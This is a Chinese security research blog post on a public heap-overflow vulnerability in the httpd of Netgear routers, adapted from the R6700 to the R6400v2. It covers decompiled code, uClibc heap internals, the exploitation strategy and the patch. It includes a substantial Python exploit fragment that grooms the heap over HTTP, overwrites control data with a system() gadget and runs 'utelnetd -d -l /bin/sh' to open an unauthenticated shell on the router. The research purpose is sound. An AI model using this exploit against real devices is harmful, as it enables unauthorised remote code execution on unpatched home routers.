


漏洞简介 2020年6月，ZDI发布了一个关于Netgear R6700型号设备上堆溢出漏洞的安全公告 ，随后又发布了一篇关于该漏洞的博客 ，其中对该漏洞进行了详细分析，并给出了完整的漏洞利用代码。该漏洞存在于对应设备的httpd组件中，在处理配置文件上传请求时，由于对请求内容的处理不当，在后续申请内存空间时存在整数溢出问题，从而造成堆溢出问题。攻击者利用这一漏洞可以在目标设备上实现代码执行，且无需认证。
此前，关于IoT设备上公开的带完整漏洞利用的堆溢出漏洞比较少(好像公开的堆溢出漏洞就不多…)，正好手边有一个R6400v2型号的设备，因此打算分析一下该漏洞，了解漏洞利用的思路，并尝试基于R6400v2型号设备实现漏洞利用。
漏洞分析 根据Netgear官方的安全公告 ，针对R6400v2型号设备，版本v1.0.4.84及其之前版本受该漏洞影响，在之后的版本中修复了该漏洞，因此选择v1.0.4.84版本来对该漏洞进行分析。
ZDI的博客 中已经对该漏洞进行了分析，故这里简单说明下。该漏洞存在于httpd组件的http_d()函数中，在处理配置文件上传请求时(接口为"/backup.cgi")，在(1)处会调用recv()读取数据，第一次读取完数据后，程序流程会到达(2)处，对请求头中的部分字段进行判断。之后会再次调用recv()读取数据，之后程序流程会到达(3)处。之后在(4)处计算请求头中"Content-Length"字段对应的值，基于该值，在(5)处计算实际的文件内容长度。在(6)处会根据计算得到的文件内容大小申请内存空间，在(7)处调用memcpy()进行拷贝。
存在该漏洞的原因在于，在计算请求头中"Content-Length"字段对应的值时，通过调用stristr(s1, "Content-Length: ")来定位其位置，当在请求url中包含"Content-Length: "时，可使得计算的值错误，从而影响后续申请的堆块大小。通过伪造合适的"Content-Length: xxx"，可造成后续在调用memcpy()时出现堆溢出。该漏洞的发现者d4rkn3ss给出的请求url为"/cgi-bin/genie.cgi?backup.cgiContent-Length: 4156559"。
同样，由于在R6400v2设备上存在nginx代理，nginx会保证请求头中的Content-Length对应的值与请求体的内容长度相等，故无法通过直接伪造原始请求头中的Content-Length触发。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 int http_d (int a1) if ( v248.s_addr ) { while ( 1 ) { while ( 1 ) { while ( 1 ) { while ( 1 ) { do { if ( (((unsigned int )v223[0 ].__fds_bits[(unsigned int )dword_F253F4 >> 5 ] >> (dword_F253F4 & 0x1F )) & 1 ) != 0 || (v92 = dword_1994EC) != 0 ) { var_recv_len = my_read(dword_F253F4, &recv_buf, 0x400 u); } v152 = v198; goto LABEL_395; } while ( var_recv_len == -2 ); if ( v150 ) break ; v144 = var_recv_len + var_offset; if ( (int )(var_recv_len + var_offset) >= 0x10000 ) { } else { memcpy (&s1[var_offset], &recv_buf, var_recv_len); s1[v144] = 0 ; if ( stristr(s1, "Content-Disposition:" ) && stristr(s1, "Content-Length: " ) && stristr(s1, "upgrade_check.cgi" ) && (stristr(s1, "Content-Type: application/octet-stream" ) || stristr(s1, "MSIE 10" )) || stristr(s1, "Content-Disposition:" ) && stristr(s1, "Content-Length: " ) && stristr(s1, "backup.cgi" ) || stristr(s1, "Content-Disposition:" ) && stristr(s1, "Content-Length: " )&& stristr(s1, "genierestore.cgi" ) ) { goto LABEL_356; } LABEL_356: v150 = 1 ; goto LABEL_357; } } } v107 = stristr(s1, "name=\"mtenRestoreCfg\"" ); if ( v107 && (v108 = stristr(v107, "\r\n\r\n" )) != 0 ) { v109 = v108 + 4 ; v102 = v108 + 4 - (_DWORD)s1; v110 = stristr(s1, "Content-Length: " ); if ( !v110 ) goto LABEL_286; v111 = v110 + 15 ; v112 = stristr(v110 + 16 , "\r\n" ) - (v110 + 16 ); v105 = 0 ; for ( i = 0 ; i < v112; ++i ) { v114 = *(char *)++v111; v105 = v114 - '0' + 10 * v105; } if ( v105 > 0x20017 ) { v105 = stristr(s1, "\r\n\r\n" ) + v105 + 4 - v109; goto LABEL_287; } } else { LABEL_287: if ( dword_1A870C ) { free ((void *)dword_1A870C); dword_1A870C = 0 ; } sub_2F284((int *)&v224); dword_1A870C = (int )malloc (v105 + 0x258 ); if ( dword_1A870C || ...) { memset ((void *)dword_1A870C, 0x20 , v105 + 0x258 ); v203=var_offset-v102; memcpy ((void *)dword_1A870C, &s1[v102], var_offset-v102);
漏洞利用 原始方法 ZDI的博客 中也给出了漏洞的上下文以及利用思路，这里进行简单概括。关于该漏洞的上下文如下：
可以往堆上写任意的数据，包括'\x00'
ASLR 等级为1，因此堆空间的起始地址是固定的
该设备使用的是uClibc，相当于一个简化版的glibc，其关于堆的检查条件比glibc中宽松很多
在实现堆溢出之后，fopen()函数会被调用，其中会分别调用malloc(0x60)和malloc(0x1000)，之后也会调用free()进行释放。堆块的申请与释放先后顺序如下：
1 free (dword_1A870C) -> dword_1A870C = malloc (<controllable_size>) -> free (malloc (0x60 )) -> free (malloc (0x1000 ))
通过请求接口"/strtblupgrade.cgi"，可以实现任意大小的堆块申请与释放：free(malloc(<controllable_size>))
d4rkn3ss利用fastbin dup attack的思路来进行漏洞利用，即通过破坏堆的状态，使得后续的malloc()返回指定的地址，由于可以往该地址写任意内容(write-what-where)，故可以通过覆盖got表项的方式实现任意代码执行。但是前面提到，在实现堆溢出之后，在fopen()内会调用malloc(0x1000)，其会触发__malloc_consolidate()，从而破坏已有的fastbin，因此需要先解决__malloc_consolidate()的问题。
在uClibc中的free()函数内，在释放fastbin时存在越界写问题，而在malloc_state结构体中，max_fast变量正好在fastbins数组前，通过越界写可以实现修改max_fast变量的目的。当max_fast变量被改成一个很大的值后，后续再调用malloc(0x1000)时便不会触发__malloc_consolidate()，从而可以执行fastbin dup attack。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 void free (void * mem) if ((unsigned long )(size) <= (unsigned long )(av->max_fast) #if TRIM_FASTBINS && (chunk_at_offset(p, size) != av->top) #endif ) { set_fastchunks(av); fb = &(av->fastbins[fastbin_index(size)]); p->fd = *fb; *fb = p; } struct malloc_state { size_t max_fast; mfastbinptr fastbins[NFASTBINS]; mchunkptr top; mchunkptr last_remainder;
综上，漏洞利用的过程如下：
通过堆溢出修改下一个空闲块的prev_size字段和size字段，填充合适的prev_size值，并使得PREV_INUSE标志位为0；
之后在触发__malloc_consolidate()时，会对该fastbin进行后向合并，因此需要保证能根据伪造的prev_size找到前面的某个空闲块，否则unlink时会报错
通过/strtblupgrade.cgi接口申请一个合适大小的堆块，该堆块会与上面已分配的堆块重叠，从而可以修改上面堆块的大小为0x8；
在上一步__malloc_consolidate()后，由于堆块的后向合并，故会存在一个空闲的堆块与已分配的堆块重叠
释放上面已分配的堆块，在将其放入fastbins数组中时，会出现越界写，从而将max_fast修改为一个很大的值；
max_fast被修改为一个很大的值后，调用mallco(0x1000)时就不会触发__malloc_consolidate()，之后就可以执行fastbin dup attack
再次通过堆溢出覆盖下一个空闲块，修改其fd指针为free()的got地址(准确来说为free_got_addr - offset)；
连续申请2个合适的堆块，返回的第2个堆块的地址指向free()的got表项，通过向堆块中写入数据，将其修改为system()的plt地址；
当释放第2个堆块时，执行free()将调用system()，同时其参数指向构造的payload，从而实现代码执行。
H4lo师傅提供了另外的思路来进行漏洞利用，具体可参考这里
“意外”方法 基于上述思路，在R6400v2设备上进行漏洞利用时发现存在如下问题：
通过malloc(0x30) -> malloc(0x40) -> malloc(0x30)方式进行堆布局时，得到的两个堆块之间的偏移比较小，但是由于返回的堆地址比较小，在后续触发__malloc_consolidate()对空闲堆块进行后向合并时，往前找不到合适的空闲堆块，无法进行堆块合并。尝试通过分配不同的堆块大小、以及发送不同的请求等方式，均无法得到满足条件的堆块。 通过malloc(0x20) -> malloc(0x10) -> malloc(0x20)方式进行堆布局时，得到的两个堆块之间的偏移比较大(超过0x470)，按照d4rkn3ss提供的漏洞利用代码，好像无法实现溢出来覆盖下一个堆块。 由于多次尝试第一种方式均失败，只能寄希望于第二种方式。由于触发漏洞的接口为"/backup.cgi"(配置文件上传接口)，按理来说上传的配置文件可以比较大，故该接口应该可以处理较长的请求，但当文件内容长度超过0x400时却无法溢出。通过对该请求的处理流程进行分析发现，要通过该接口触发漏洞，整个请求的长度要在0x400~0x800之间，如下：
该请求必须触发2次recv() ，即对应请求长度必须>0x400，否则无法到达漏洞点处； 该请求只会触发2次recv()，当对应请求长度>0x800，过长的内容会被截断，后续拷贝时无法造成溢出。 在d4rkn3ss提供的漏洞利用脚本中，可以看到在请求头中有一个'a'*0x200的占位符，同时make_filename()也有一个类似的占位符，因此实际可上传的配置文件大小约为0x2c0左右，故当两个堆块之间的偏移超过0x400时无法造成堆溢出。解决方式很简单，当要上传大文件时，去掉占位符'a'*0x200即可。
1 2 3 4 5 6 def make_filename (chunk_size ): return 'a' * (0x1d7 - chunk_size) def exploit (): path = '/cgi-bin/genie.cgi?backup.cgiContent-Length: 4156559' headers = ['Host: %s:%s' % (rhost, rport), 'a' *0x200 + ': d4rkn3ss' ]
在解决了该问题后，打算按照原来的思路进行利用，可能存在的一些问题如下：
两个堆块之间的偏移约为0x470，而且不相邻，在溢出覆盖目标空闲堆块时是否会破坏其他结构? 溢出到目标空闲堆块后，在触发__malloc_consolidate()对该空闲堆块进行后向合并时，后向偏移约为0x24e0，通过/strtblupgrade.cgi接口申请合适大小的堆块，利用该堆块修改上面已分配堆块的size字段，是否会破坏其他结构？ 经过测试，发现和预期不太一致：通过/strtblupgrade.cgi接口申请的堆地址在前面合并的空闲堆块地址之前，同时，此时的$PC已经被填充的payload控制了，直接实现了劫持控制流的目的。如下，可以看到$PC的值来自于填充的内容，同时部分寄存器如$R4也指向填充的payload。因此，只需要找到合适的rop gadgets，构造合适的payload，即可实现代码执行。

根据backtrace信息，查看uClibc中函数__stdio_WRITE()的源码，如下。在__stdio_WRITE()中，正常情况下是通过宏_WRITE来调用__gcs.write()函数，但经过上述操作后，STREAMPTR指向了填充的payload，从而可以控制(STREAMPTR)->__gcs.write。经过调试暂时未定位到修改STREAMPTR的地方(在下断点进一步分析时，有时貌似无法复现… 暂时未想到其他方式来定位)，感兴趣的可以试试。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 size_t attribute_hidden __stdio_WRITE(register FILE *stream, register const unsigned char *buf, size_t bufsize) { size_t todo; ssize_t rv, stodo; __STDIO_STREAM_VALIDATE(stream); assert(stream->__filedes >= -1 ); assert(__STDIO_STREAM_IS_WRITING(stream)); assert(!__STDIO_STREAM_BUFFER_WUSED(stream)); todo = bufsize; while (todo != 0 ) { stodo = (todo <= SSIZE_MAX) ? todo : SSIZE_MAX; rv = __WRITE(stream, (char *) buf, stodo); #define __WRITE(STREAMPTR,BUF,SIZE) \ ((((STREAMPTR)->__gcs.write) == NULL ) ? -1 : \ (((STREAMPTR)->__gcs.write)((STREAMPTR)->__cookie,(BUF),(SIZE))))
综上，上述思路的主要过程如下。需要说明的是，在未访问设备Web后台(比如重启设备后)和访问Web后台后，调用malloc(0x8)返回的堆块地址不太一致(存在0x10的偏移)，使得下列过程不太稳定(不适用于访问过Web后台的情形)，建议重启设备后测试。本来想通过触发__malloc_consolidate()来使得堆块状态一致，但好像不起作用…
colorlight师傅建议通过先多次发送登录请求(错误的认证即可)，当响应的状态码为200时，可使得两种情形下的堆状态一致，但测试后发现针对上述情形似乎仍然无效 …
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 print '[+] malloc 0x38 chunk' f = copy.deepcopy(files) f['filename' ] = make_filename(0x38 ) post_request(path, headers, f) print '[+] malloc 0x20 chunk' f = copy.deepcopy(files) f['filename' ] = make_filename(0x20 ) post_request(path, headers, f) print '[+] malloc 0x8 chunk' f = copy.deepcopy(files) f['filename' ] = make_filename(0x8 ) post_request(path, headers, f) print '[+] malloc 0x20 chunk' headers = ['Host: %s:%s' % (rhost, rport)] f = copy.deepcopy(files) f['filename' ] = make_filename(0x20 ) f['filecontent' ] = 'a' * 0x468 + p32(0x24e0 ) + p32(0x10 ) post_request(path, headers, f) print '[+] malloc 0x2080 chunk and try to overwrite size of 0x28 chunk -> 0x9.' malloc_size = 0x2080 f = copy.deepcopy(files) f['name' ] = 'StringFilepload' f['filename' ] = 'a' * 0x100 system_gadget = 0xF3C8 cmd = 'utelnetd -d -l /bin/sh' .ljust(32 , '\x00' ) payload = 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaatzaaubaaucaaudaaueaaufaaugaauhaauiaaujaaukaaulaaumaaunaauoaaupaauqaauraausaautaauuaauvaauwaauxaauyaauzaavbaavcaavdaaveaavfaavgaavhaaviaavjaavkaavlaavmaavnaavoaavpaavqaavraavsaavtaavuaavvaavwaavxaavyaavzaawbaawcaawdaaweaawfaawgaawhaawiaawjaawkaawlaawmaawnaawoaawpaawqaawraawsaawtaawuaawvaawwaawxaawyaawzaaxbaaxcaaxdaaxeaaxfaaxgaaxhaaxiaaxjaaxkaaxlaaxmaaxnaaxoaaxpaaxqaaxraaxsaaxtaaxuaaxvaaxwaaxxaaxyaaxzaaybaaycaaydaayeaayfaaygaayhaayiaayjaaykaaylaaymaaynaayoaaypaayqaayraaysaaytaayuaayvaaywaayxaayyaayzaazbaazcaazdaazeaazfaazgaazhaaziaazjaazkaazlaazmaaznaazoaazpaazqaazraazsaaztaazuaazvaazwaazxaazyaazzababacabadabaeabafabagabahabaiabajabakabalabamabanabaoabapabaqabarabasabatabauabavabawabaxabayabazabbbabbcabbdabbeabbfabbgabbhabbiabbjabbkabblabbmabbnabboabbpabbqabbrabbsabbtabbuabbvabbwabbxabbyabbzabcbabccabcdabceabcfabcgabchabciabcjabckabclabcmabcnabcoabcpabcqabcrabcsabctabcuabcvabcwabcxabcyabczabdbabdcabddabdeabdfabdgabdhabdiabdjabdkabdlabdmabdnabdoabdpabdqabdrabdsabdtabduabdvabdwabdxabdyabdzabebabecabedabeeabefabegabehabeiabejabekabelabemabenabeoabepabeqaberabesabetabeuabevabewabexabeyabezabfbabfcabfdabfeabffabfgabfhabfiabfjabfkabflabfmabfnabfoabfpabfqabfrabfsabftabfuabfvabfwabfxabfyabfzabgbabgcabgdabgeabgfabggabghabgiabgjabgkabglabgmabgnabgoabgpabgqabgrabgsabgtabguabgvabgwabgxabgyabgzabhbabhcabhdabheabhfabhgabhhabhiabhjabhkabhlabhmabhnabhoabhpabhqabhrabhsabhtabhuabhvabhwabhxabhyabhzabibabicabidabieabifabigabihabiiabijabikabilabimabinabioabipabiqabirabisabitabiuabivabiwabixabiyabizabjbabjcabjdabjeabjfabjgabjhabjiabjjabjkabjlabjmabjnabjoabjpabjqabjrabjsabjtabjuabjvabjwabjxabjyabjzabkbabkcabkdabkeabkfabkgabkhabkiabkjabkkabklabkmabknabkoabkpabkqabkrabksabktabkuabkvabkwabkxabkyabkzablbablcabldableablfablgablhabliabljablkabllablmablnabloablpablqablrablsabltabluablvablwablxablyablzabmbabmcabmdabmeabmfabmgabmhabmiabmjabmkabmlabmmabmnabmoabmpabmqabmrabmsabmtabmuabmvabmwabmxabmyabmzabnbabncabndabneabnfabngabnhabniabnjabnkabnlabnmabnnabnoabnpabnqabnrabnsabntabnuabnvabnwabnxabnyabnzabobabocabodaboeabofabogabohaboiabojabokabolabomabonabooabopaboqaborabosabotabouabovabowaboxaboyabozabpbabpcabpdabpeabpfabpgabphabpiabpjabpkabplabpmabpnabpoabppabpqabprabpsabptabpuabpvabpwabpxabpyabpzabqbabqcabqdabqeabqfabqgabqhabqiabqjabqkabqlabqmabqnabqoabqpabqqabqrabqsabqtabquabqvabqwabqxabqyabqzabrbabrcabrdabreabrfabrgabrhabriabrjabrkabrlabrmabrnabroabrpabrqabrrabrsabrtabruabrvabrwabrxabryabrzabsbabscabsdabseabsfabsgabshabsiabsjabskabslabsmabsnabsoabspabsqabsrabssabstabsuabsvabswabsxabsyabszabtbabtcabtdabteabtfabtgabthabtiabtjabtkabtlabtmabtnabtoabtpabtqabtrabtsabttabtuabtvabtwabtxabtyabtzabubabucabudabueabufabugabuhabuiabujabukabulabumabunabuoabupabuqaburabusabutabuuabuvabuwabuxabuyabuzabvbabvcabvdabveabvfabvgabvhabviabvjabvkabvlabvmabvnabvoabvpabvqabvrabvsabvtabvuabvvabvwabvxabvyabvzabwbabwcabwdabweabwfabwgabwhabwiabwjabwkabwlabwmabwnabwoabwpabwqabwrabwsabwtabwuabwvabwwabwxabwyabwzabxbabxcabxdabxeabxfabxgabxhabxiabxjabxkabxlabxmabxnabxoabxpabxqabxrabxsabxtabxuabxvabxwabxxabxyabxzabybabycabydabyeabyfabygabyhabyiabyjabykabylabymabynabyoabypabyqabyrabysabytabyuabyvabywabyxabyyabyzabzbabzcabzdabzeabzfabzgabzhabziabzjabzkabzlabzmabznabzoabzpabzqabzrabzsabztabzuabzvabzwabzxabzyabzzacacadacaeacafacagacahacaiacajacakacalacamacanacaoacapacaqacaracasacatacauacavacawacaxacayacazacbbacbcacbdacbeacbfacbgacbhacbiacbjacbkacblacbmacbnacboacbpacbqacbracbsacbtacbuacbvacbwacbxacbyacbzaccbacccaccdacceaccfaccgacchacciaccjacckacclaccmaccnaccoaccpaccqaccraccsacctaccuaccvaccwaccxaccyacczacdbacdcacddacdeacdfacdgacdhacdiacdjacdkacdlacdmacdnacdoacdpacdqacdracdsacdtacduacdvacdwacdxacdyacdzacebacecacedaceeacefacegacehaceiacejacekacelacemacenaceoacepaceqaceracesacetaceuacevacewacexaceyacezacfbacfcacfdacfeacffacfgacfhacfiacfjacfkacflacfmacfnacfoacfpacfqacfracfsacftacfuacfvacfwacfxacfyacfzacgbacgcacgdacgeacgfacggacghacgiacgjacgkacglacgmacgnacgoacgpacgqacgracgsacgtacguacgvacgwacgxacgyacgzachbachcachdacheachfachgachhachiachjachkachlachmachnachoachpachqachrachsachtachuachvachwachxachyachzacibacicacidacieacifacigacihaciiacijacikacilacimacinacioacipaciqaciracisacitaciuacivaciwacixaciyacizacjbacjcacjdacjeacjfacjgacjhacjiacjjacjkacjlacjmacjnacjoacjpacjqacjracjsacjtacjuacjvacjwacjxacjyacjzackbackcackdackeackfackgackhackiackjackkacklackmacknackoackpackqackracksacktackuackvackwackxackyackzaclbaclcacldacleaclfaclgaclhacliacljaclkacllaclmaclnacloaclpaclqaclraclsacltacluaclvaclwaclxaclyaclzacmbacmcacmdacmeacmfacmgacmhacmiacmjacmkacmlacmmacmnacmoacmpacmqacmracmsacmtacmuacmvacmwacmxacmyacmzacnbacncacndacneacnfacngacnhacniacnjacnkacnlacnmacnnacnoacnpacnqacnracnsacntacnuacnvacnwacnxacnyacnzacobacocacodacoeacofacogacohacoiacojacokacolacomaconacooacopacoqacoracosacotacouacovacowacoxacoyacozacpbacpcacpdacpeacpfacpgacphacpiacpjacpkacplacpmacpnacpoacppacpqacpracpsacptacpuacpvacpwacpxacpyacpzacqbacqcacqdacqeacqfacqgacqhacqiacqjacqkacqlacqmacqnacqoacqpacqqacqracqsacqtacquacqvacqwacqxacqyacqzacrbacrcacrdacreacrfacrgacrhacriacrjacrkacrlacrmacrnacroacrpacrqacrracrsacrtacruacrvacrwacrxacryacrzacsbacscacsdacseacsfacsgacshacsiacsjacskacslacsmacsnacsoacspacsqacsracssacstacsuacsvacswacsxacsyacszactbactcactdacteactfactgacthactiactjactkactlactmactnactoactpactqactractsacttactuactvactwactxactyactzacubacucacudacueacufacugacuhacuiacujacukaculacumacunacuoacupacuqacuracusacutacuuacuvacuwacuxacuyacuzacvbacvcacvdacveacvfacvgacvhacviacvjacvkacvlacvmacvnacvoacvpacvqacvracvsacvtacvuacvvacvwacvxacvyacvzacwbacwcacwdacweacwfacwgacwhacwiacwjacwkacwlacwmacwnacwoacwpacwqacwracwsacwtacwuacwvacwwacwxacwyacwzacxbacxcacxdacxeacxfacxgacxhacxiacxjacxkacxlacxmacxnacxoacxpacxqacxracxsacxtacxuacxvacxwacxxacxyacxzacybacycacydacyeacyfacygacyhacyiacyjacykacylacymacynacyoacypacyqacyracysacytacyuacyvacywacyxacyyacyzaczbaczcaczdaczeaczfaczgaczhacziaczjaczkaczlaczmacznaczoaczpaczqaczraczsacztaczuaczvaczwaczxaczyaczzadadaeadafadagadahadaiadajadakadaladamadanadaoadapadaqadaradasadatadauadavadawadaxadayadazadbbadbcadbdadbeadbfadbgadbhadbiadbjadbkadbladbmadbnadboadbpadbqadbradbsadbtadbuadbvadbwadbxadbyadbzadcbadccadcdadceadcfadcgadchadciadcjadckadcladcmadcnadcoadcpadcqadcradcsadctadcuadcvadcwadcxadcyadczaddbaddcadddaddeaddfaddgaddhaddiaddjaddkaddladdmaddnaddoaddpaddqaddraddsaddtadduaddvaddwaddxaddyaddzadebadecadedadeeadefadegadehadeiadejadekadelademadenadeoadepadeqaderadesadetadeuadevadewadexadeyadezadfbadfcadfdadfea' payload_offset = payload.index("baaz" ) payload = payload.replace(payload[payload_offset+0x24 :payload_offset + 0x24 +4 ], p32(system_gadget)) payload = payload.replace(payload[payload_offset:payload_offset+32 ], cmd) f['filecontent' ] = p32(malloc_size).ljust(0x10 ) + payload + p32(0x9 ) post_request('/strtblupgrade.cgi.css' , headers, f)
补丁分析 以R6400v2-V1.0.4.98_10.0.71版本为例，在http_d()函数中存在一处变更如下：在定位到"Content-Length: "后判断其前一个字符是否为'\n'，应该是对该漏洞的修复。

小结 本文基于R6400v2型号设备，对R6700设备上的堆溢出漏洞进行了分析，并重点介绍了漏洞利用的思路。在参考原始思路实现漏洞利用的过程中，”意外”发现了另一种方式可直接劫持控制流。当然，由于不同设备上的堆布局可能不太一致，这种方式可能不具普适性(甚至带有一点运气的成分…)，而原始的利用思路则比较通用。
相关链接 (0Day) NETGEAR R6700 httpd strtblupgrade Integer Overflow Remote Code Execution Vulnerability ZDI-20-709: HEAP OVERFLOW IN THE NETGEAR NIGHTHAWK R6700 ROUTER Security Advisory for Multiple Vulnerabilities on Some Routers, Mobile Routers, Modems, Gateways, and Extenders 0ctf2019 Final embedded_heap题解 本文首发于信安之路，文章链接：https://mp.weixin.qq.com/s/FvqfcHjdM6-LVf-lQXzplA